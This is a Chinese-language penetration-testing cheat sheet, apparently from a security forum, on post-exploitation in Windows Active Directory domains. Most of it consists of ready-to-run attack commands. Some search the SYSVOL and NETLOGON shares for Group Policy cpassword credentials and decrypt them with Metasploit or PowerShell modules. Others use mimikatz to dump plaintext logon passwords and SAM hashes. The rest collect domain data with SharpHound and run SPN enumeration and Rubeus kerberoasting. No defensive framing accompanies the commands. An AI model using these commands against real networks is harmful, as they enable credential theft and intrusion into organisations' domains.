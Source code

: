 [![img](https://xzfile.aliyuncs.com/media/upload/picture/20200518104759-fbfcf3aa-98b1-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200518104759-fbfcf3aa-98b1-1.png)

**NETLOGON目录**

挂载点:`SYSVOL\domain\SCRIPTS` 主要存放的是一些脚本信息，是AD活动目录安装时候自动创建的，是在`sysvol`下面的一个子目录文件夹。

**SYSVOL目录**

> SYSVOL目录是AD域中的一个`共享`文件夹，该文件夹在AD活动目录安装时候被创建。通常用来存放组策略数据 和 一些脚本 配置文件，这些策略和脚本将用于传递给域成员机器。 此外，域控机器之间因为要自动同步域数据，SYSVOL文档允许该域内的所有DC机之间进行复制，并且所有的AD用户都可以访问它

一定要去翻翻这两个目录

```
dir \\ad\NETLOGON
dir \\ad\SYSVOL
type \\ad\\NETLOGON\file
findstr /c:"userName=" /c:"cpassword=" /si \\ad\sysvol\xxxxx\policies\*.xml
```

如果发现密码可以使用：msf:`post/windows/gather/credentials/gpp`

或者

```
Get-CachedGPPPassword //For locally stored GP Files
Get-GPPPassword //For GP Files stored in the DC
```

### 尝试抓取所有已控机器本地的系统明文密码



```
mimikatz !privilege::debug
mimikatz !sekurlas:logonpasswords#明文密码
mimikatz !token::elevate
mimikatz !lsadump::sam#抓取hash
```



### 快速抓取当前域内所有用户，组，会话，机器数据[BloodHound]

[SharpHound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1)

```
powereshell-import SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
```





### 一键获取当前域内的所有spn记录

SPN(ServicePrincipal Names)服务主体名称，是服务实例(比如：HTTP、SMB、MySQL等服务)的唯一标识符。Kerberos认证过程使用SPN将服务实例与服务登录账户相关联，如果想使用 Kerberos 协议来认证服务，那么必须正确配置SPN。

```
setspn -T xxxx.com -Q */* >> xxx.log
cscript GetUserSPNs.vbs
Rubeus.exe kerberoast
```
